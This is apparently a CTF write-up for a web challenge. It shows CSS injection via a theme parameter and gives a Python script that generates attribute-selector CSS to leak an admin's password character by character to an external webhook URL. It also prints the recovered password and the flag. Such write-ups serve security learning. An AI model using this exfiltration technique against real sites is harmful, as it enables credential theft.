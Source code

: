 ## Description
We created a [login form](https://fancy-login-form.ctf.zone) with different themes, hope you like it!

## Solution
You can include arbitrary CSS through `theme` which will get inserted into href with `.css` appended. Then, you can make a report to have the admin bot visit.

This block logs the user's password, then updates the input attribute. We can then use CSS selectors to leak the admin's password.
```js
const inp = document.getElementById("password");
inp.addEventListener("keyup", (e) => {
  inp.setAttribute('value', inp.value)
});
```

I had problems with my tunnel so I did it manually...

```py
import string
from urllib.parse import quote

password = ""
#password = "F0x13foXtrOT&Elas7icBe4n5"

css = """input[name="password"][value^="{guess}"] {{
  background: url({url}/?q={encoded})
}}"""

url = "https://webhook.site/6c560ca3-53f9-4e43-84b3-389ecb170842" # update ngrok
CHARSET = string.ascii_letters + string.digits + "{}_!@#$%^&*()-=[]|}{;':,./<>?}"


with open("leak.css", "w") as f:
    for char in CHARSET:
        guess = password + char
        encoded = quote(char)
        w = css.format(guess=guess, url=url, encoded=encoded)
        # print(w)
        # print()
        f.write(w + "\n")
```

Flag: `flag{6b1f095e79699a79dc4a366c1131313e}`


Solved by: benkyou
